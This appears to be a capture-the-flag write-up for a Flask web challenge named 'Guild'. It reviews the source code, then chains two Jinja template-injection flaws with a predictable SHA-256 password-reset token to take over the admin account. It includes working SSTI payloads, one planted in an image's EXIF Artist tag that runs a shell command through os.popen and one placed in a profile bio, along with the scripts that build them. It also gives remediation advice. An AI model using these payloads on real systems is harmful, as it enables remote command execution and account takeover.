

# Guild

## Category: Web | Difficulty: Easy | Approach: White-box

### PART I: Vulnerability

- SSTI via EXIF metadata (CWE-1336): The admin-only `/verify` endpoint formats the attacker-controlled EXIF Artist tag directly into `render_template_string()` without sanitization. An attacker who gains control of the admin account can exploit this to achieve arbitrary OS command execution.
- SSTI via profile bio (CWE-1336): The public `/user/<link>` endpoint inserts the user-controlled bio into the Jinja template source through Python string formatting before Jinja parses it. This allows any user who can access the sharing feature to execute template expressions and read sensitive data accessible through the `User` ORM model, despite the incomplete keyword blacklist in `checkInput()`.
- Predictable password-reset token (CWE-640, CWE-330): The `/forgetpassword` and `/changepasswd/<Hash>` endpoints allow an attacker who knows the target's email address to reset their password. The token is derived solely from `SHA-256(email)`, with no server-side secret or expiration mechanism.

---

### PART II: Application Mapping (Black-box)

- The main page is static and displays two features: `Login` and `Sign-UP`.
    
    
    
- This is a standard sign-up form.
    
    
    
- This is a standard login form with a `Forget Password?` feature.
    
    
    
- It asks for an email address.
    
    
    
- After logging in, I am redirected to a verification page where I must submit an image before accessing the other features.
    
    
    
- Accessing the `DashBoard` redirects me to `/`, which displays “Your Request has been send to Guild-Master wait for approval.”
    
    
    
- However, I can access the `Profile` page and edit my bio. I also see the `Share your Profile?` below
    
    
    
- Clicking it generates a link to my profile.
    
    
    
- Visiting that link displays a static page. (With name in the left side and bio in the right side if it exists)
    
    
    
- Here is the map after browsing the UI:
    
    
    

---

### PART III: Source Code Reviewing

#### III.0: Special User

- File: `models.py`:
    
    ```python
    class Verification(db.Model):
        id = db.Column(db.Integer,primary_key=True)
        verified = db.Column(db.Integer)
        date = db.Column(db.DateTime(timezone=True),default=func.now())
        doc = db.Column(db.String(150),unique=True)
        bio = db.Column(db.String(200))
        user_id = db.Column(db.Integer, db.ForeignKey("user.id"))
    
    class User(db.Model,UserMixin):
        id = db.Column(db.Integer,primary_key=True)
        email = db.Column(db.String(50),unique=True)
        username = db.Column(db.String(50),unique=True)
        password = db.Column(db.String(50))
        verified = db.relationship("Verification")
    
    class Validlinks(db.Model):
        id = db.Column(db.Integer,primary_key=True)
        email = db.Column(db.String(50))
        validlink = db.Column(db.String(200))
    ```
    
    - This file defines three database models.
- File: `__init__.py`:
    
    ```python
    def create_random_string(length):
        letters = string.ascii_letters + string.digits
        return "".join(random.choice(letters) for i in range(length))
    
    def create_app():
        app = Flask(__name__)
        ...
        with app.app_context():
            if not User.query.filter_by(username="admin").first():
                admin_user = User(email=str(create_random_string(8).encode("utf-8").hex()) + "@master.guild", username="admin", password=generate_password_hash(create_random_string(8).encode("utf-8").hex()))
                db.session.add(admin_user)
                db.session.commit()
    
        return app
    ```
    
    - This file seeds a single `admin` user at first boot with a **random** 8-hex-char local part (`@master.guild`) and a random password.
- File: `auth.py`:
    
    ```python
    @auth.route("/login", methods=["GET", "POST"])
    def login():
        ...
        if username == "admin":
            return redirect(url_for("views.admin"))
        return redirect(url_for("views.dashboard"))
        ...
    ```
    
- The only notable behavior here is that the application checks the username to determine where to redirect the user.
- This gives me a clear objective: take over the admin account.

#### III.1: Critical SSTI (`/verification` → `/admin` → `/verify`)

- First route:
    
    ```python
    @views.route("/verification",methods=["GET","POST"])
    @login_required
    def verification():
        if request.method == "POST":
            if "file" in request.files:
                file = request.files["file"]
                if file and allowed_file(file.filename):
                    filename = secure_filename(file.filename)
                    os.makedirs(os.path.join("/", "app", "guild", "website", "uploads", current_user.username), exist_ok=True)
                    file.save(os.path.join("/", "app", "guild", "website", "uploads", current_user.username, filename))
    
                    new_req = Verification(verified=0, doc=str(os.path.join("/", "app", "guild", "website", "uploads", current_user.username, filename)), user_id=current_user.id, bio="")
                    db.session.add(new_req)
                    db.session.commit()
                    flash("Verification Request Sent!", category="success")
    
                elif file and not allowed_file(file.filename):
                    flash("Only png, jpg, jpeg are allowed!", category="error")
        
        query = Verification.query.filter_by(user_id=current_user.id).first()
        if query:
            if query.verified == 0:
                flash("Your Request has been send to Guild-Master wait for approval.", category="error")
                return redirect(url_for("views.home"))
            
            elif query.verified == 1:
                flash("Already verified!", category="error")
                return redirect(url_for("views.dashboard"))
    
        else:
            return render_template("verification.html", user=current_user, username=current_user.username)
    
    ```
    
    - This route allows users to upload an image and only checks its file extension using `allowed_file()`. The file content itself is never validated.
    - Finally, it creates a `Verification` row and stores the uploaded file path in `Verification.doc`.
- Second route:
    
    ```python
    @views.route("/admin",methods=["GET", "POST"])
    @login_required
    def admin():
        if current_user.username == "admin":
            verifications = Verification.query.all()
            return render_template("admin.html", user=current_user, Verification=verifications, User=User)
        else:
            flash("You are not admin!", category="error")
            return redirect(url_for("views.home"))
    ```
    
    - This route retrieves all `Verification` records and renders the admin page, where the administrator can review submitted images.
- Third route:
    
    ```python
    @views.route("/verify",methods=["GET", "POST"])
    @login_required
    def verify():
        if current_user.username == "admin":
            if request.method == "POST":
                user_id = request.form.get("user_id")
                verf_id = request.form.get("verification_id")
                query = Verification.query.filter_by(id=verf_id).first()
                
                img = Image.open(query.doc)
    
                exif_table={}
    
                for k, v in img.getexif().items():
                    tag = TAGS.get(k)
                    exif_table[tag]=v
    
                if "Artist" in exif_table.keys():
                    sec_code = exif_table["Artist"]
                    query.verified = 1
                    db.session.commit()
                    return render_template_string("Verified! {}".format(sec_code))
                else:
                    return render_template_string("Not Verified! :(")
        else:
            flash("Oops", category="error")
            return redirect(url_for("views.home"))
    ```
    
    - This route opens the image stored in `Verification.doc` and reads its EXIF `Artist` tag. If the tag exists, the route sets `verified` to `1` and renders `"Verified! " + Artist` using `render_template_string()` without sanitizing the value. This leads to SSTI because the Artist tag contains attacker-controlled metadata.

#### III.2: Vulnerable Reset Password Flow (`/forgetpassword` → `/changepasswd/<Hash>`)

- First route:
    
    ```python
    @views.route("/forgetpassword", methods=["GET", "POST"])
    def forgetpassword():
        if request.method == "POST":
            email = request.form.get("email")
            query = User.query.filter_by(email=email).first()
            flash("If email is registered then you will get a link to reset password!", category="success")
            if query:
                # send email the below link
                reset_url = str(hashlib.sha256(email.encode()).hexdigest())
                print(reset_url)
                new_query = Validlinks(email=email, validlink=reset_url)
                db.session.add(new_query)
                db.session.commit()
            
            return redirect(url_for("views.home"))
    
        return render_template("forgetpassword.html", user=current_user)
    ```
    
    - This route generates `reset_url` by calculating the SHA-256 hash of the email address without a secret key, then stores it in `Validlinks.validlink`.
- Second route:
    
    ```python
    @views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
    def changepasswd(Hash):
        query = Validlinks.query.filter_by(validlink=Hash).first()
        if query:
            if request.method == "POST":
                email = query.email
                query1 = User.query.filter_by(email=email).first()
                new_password = request.form.get("password")
                query1.password = generate_password_hash(new_password, method="sha256")
                db.session.commit()
                db.session.delete(query)
                db.session.commit()
                flash("Password Updated!",category="success")
                redirect(url_for("views.home"))
                
            return render_template("resetpassword.html", user=current_user, email=query.email)
    
    ```
    
- This route checks the supplied `<Hash>` against `Validlinks.validlink` and allows the associated account's password to be changed if a matching record exists.
- The `<Hash>` is simply the SHA-256 hash of the email address. Therefore, an attacker who knows the target's email can calculate the token and use it to reset the associated account's password, provided that a corresponding reset record has been created.

#### III.3: Another SSTI (`/profile` → `/getlink` → `/user/<link>`)

- First route:
    
    ```python
    @views.route("/profile", methods=["GET", "POST"])
    @login_required
    def profile():
        query = Verification.query.filter_by(user_id=current_user.id).first()
        if query:
    
            if request.method == "POST":
                bio = request.form.get("bio")
                if not checkInput(bio):
                    query.bio = bio
                    db.session.commit()
                    flash("Bio updated !", category="success")
                    return render_template("profile.html", user=current_user, Bio=bio, User=User)
                else:
                    flash("Avoid Bad Characters!", category="error")
    
            return render_template("profile.html", user=current_user, Bio=query.bio, User=User)
        else:
            flash("Submit your Badge for verification!", category="error")
            return redirect(url_for("views.verification"))
    ```
    
    - This route saves the user-provided bio in `Verification.bio` if it passes the `checkInput()` filter. However, `checkInput()` only implements a keyword blacklist and does not even block the Jinja delimiters `{{ }}`.
- Second route:
    
    ```python
    @views.route("/getlink")
    @login_required
    def create_share():
        username = current_user.username
        query = Validlinks.query.filter_by(validlink=username).first()
        if query:
            pass 
        else:
            new_query = Validlinks(email=current_user.email, validlink=current_user.username)
            db.session.add(new_query)
            db.session.commit()
        link = "/user/" + str(current_user.username)
        return render_template("getlink.html", link=link, user=current_user)
    ```
    
    - This route has nothing to do with the `bio`. What it does is create a row in the `Validlinks` table, sets `validlink` to the user's own `username` and then returns a link in the format `"/user/<username>"`.
- Third route:
    
    ```python
    @views.route("/user/<link>")
    def share(link):
        query = Validlinks.query.filter_by(validlink=link).first()
        if query:
            email = query.email
            query1 = User.query.filter_by(email=email).first()
            bio = Verification.query.filter_by(user_id=query1.id).first().bio
            temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
            return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
    ```
    
    - This route first gets the <link> (`username`) from the URL, then checks it via `Validlinks` and retrieves the `email` (which is the same one just generated by `/getlink`).
    - From `email`, it looks up `User`, retrieves `user_id`, checks `Verification`, and fetches the exact `bio` that was recorded for `/profile` in step 1.
    - But instead of using `render_template` (which is secure), it reads the template file as a plain string, injects the `bio` using `%` formatting, and then passes the entire result to `render_template_string`.

---

### PART IV: Exploitation

#### IV.1: Submitting Verification Image

- First, I create an image containing the SSTI payload using this script.
    
    ```python
    from PIL import Image
    
    img = Image.new("RGB", (10, 10), color="red")
    exif = Image.Exif()
    payload = "{{ config.__class__.__init__.__globals__['os'].popen('cat /app/flag.txt').read() }}"
    exif[0x013B] = payload  # 0x013B = EXIF Artist tag
    img.save("exploit.jpg", format="jpeg", exif=exif.tobytes())
    ```
    
- (Or you can use exiftool directly)
    
    ```bash
    exiftool -Artist="{{ config.__class__.__init__.__globals__['os'].popen('cat /app/flag.txt').read() }}" exploit.jpg
    ```
    
- Then I upload that image, this plants the payload for the next steps.
    
    
    

#### IV.2: Retrieving admin’s Email.

- Since the `User` class is passed directly into the context, a straight ORM read is possible.
- I update my `bio` to “`{{User.query.filter_by(username='admin').first().email}}`”.
    
    
    
- By clicking `Share your Profile?` , I trigger the `/getlink` to return the link `/user/<link>` .
- Accessing that link executes the SSTI payload above and reveals admin’s email.
    
    
    

#### IV.3: Taking Over Admin Account

- Next, I hash the email using this script, which results in: `81f66d3f6dce65db965797dd1dff3cbe87640265180d2abba5ec89f98408db74`
    
    ```bash
    import hashlib
    
    email = "4b63387262343836@master.guild"
    print(hashlib.sha256(email.encode()).hexdigest())
    ```
    
- Then I send a request to `/forgetpassword` and pass in admin’s email. At this stage, the email will be hashed in the back end.
    
    
    
- Next, I access the  `/changepasswd/<Hash>` to change the password for admin’s account.
    
    
    
- After changing the password, I log in with `admin:test` and arrive at the `/admin` page.
    
    
    
- From here, I click the `verify` button, and the SSTI payload planted from the start executes, displaying the flag.
    
    
    

---

### PART V: Impact

- Self-registration provides the only barrier to entry, and it is not a real one: any attacker can create an account through the public sign-up form with no email verification actually delivered, so this is effectively unauthenticated for severity purposes.
- Once the chain is complete, the attacker gains full control of the `admin` account, the only privileged role in the application, and arbitrary OS command execution in the context of the application process. No interaction from a real administrator is required at any point, since the attacker ends up controlling the one account that would normally need to approve anything.
- **Severity: Critical** - Unauthenticated path to full admin takeover and remote command execution.

---

### PART VI: Root Cause & Remediation

#### Root Cause:

- **EXIF metadata trusted as operator-supplied text**: `/verify` formats the `Artist` tag directly into a template string (`"Verified! {}".format(sec_code)`) with no filtering, treating attacker-controlled file metadata as trusted input.
- **Reset token derived from a learnable value with no secret**: the `/forgetpassword` token is a deterministic, unsalted `sha256(email)`. Anyone who knows a user’s email can compute a valid reset link offline. There is no HMAC key, no expiration, and no randomness in its derivation.
- **Template source assembled via string formatting**: `/user/<link>` splices `bio` into the Jinja template source using Python’s `%` operator (`temp % bio`) before Jinja ever parses it, turning arbitrary user text into template syntax instead of template data.
- **Blacklist filter misses the Jinja delimiters**: `checkInput()` blocks keywords such as `class`, `self`, `__`, `mro`, `globals`, `os`, and `popen`, but never blocks `{{` and `}}` themselves. A payload that doesn’t need those specific words, like a direct read through the `User` class already present in the render context, passes through untouched.
- **Live application objects passed alongside user-controlled input**: `render_template_string(..., User=User)` injects the live SQLAlchemy model class into the same render context as the unsanitized `bio`. This gives the attacker a working ORM query interface without needing any dunder or class-traversal payload, which is also why the blacklist above has nothing to catch.

#### Remediation:

- Never render externally-sourced metadata through a template engine. Return it as plain text, or pass it as a variable to an autoescaped `render_template()` call so Jinja treats it as data, not code.
- Generate the token with a CSPRNG such as `secrets.token_urlsafe(32)`, store it server-side with an expiration tied to that specific request, and invalidate it after first use.
- Pass `bio` as a context variable to `render_template()` against the static `shareprofile.html` file. Never assemble template source from user input via `%`, `.format()`, or f-strings.
- Remove the keyword blacklist. Combined with the two fixes above (autoescaped variable interpolation instead of raw template-source assembly), no keyword filtering is needed. If user-influenced template rendering is ever genuinely required, use Jinja’s `SandboxedEnvironment` instead of a hand-rolled keyword list.
- Never pass live application objects, such as model classes, `db.session`, or `current_app`, into a render context that also contains unsanitized user input. If the template needs derived data, compute and pass only the specific scalar values required.
